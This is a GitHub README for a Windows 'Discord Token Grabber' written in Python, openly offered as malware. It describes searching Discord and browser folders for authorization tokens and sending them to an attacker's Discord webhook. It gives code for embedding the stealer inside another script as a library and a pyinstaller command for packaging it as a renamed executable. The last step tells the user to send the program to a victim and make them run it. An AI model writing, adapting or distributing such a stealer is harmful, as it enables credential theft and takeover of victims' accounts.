 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3.</p>

This version of the grabber only supports **Windows**.

# Features
 - Transfers via Discord webhook
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - can be used as a library

<br>

# How to use
 1. Create a webhook on your Discord server.
 2. Change the 'WEBHOOK_URL' variable value to your Discord webhook URL in [token-grabber.py](token-grabber.py)
 2.5. add it to another script (preferably as a library)
 example:
 ```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.main()
```
2.75. Compile the script using pyinstaller
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.
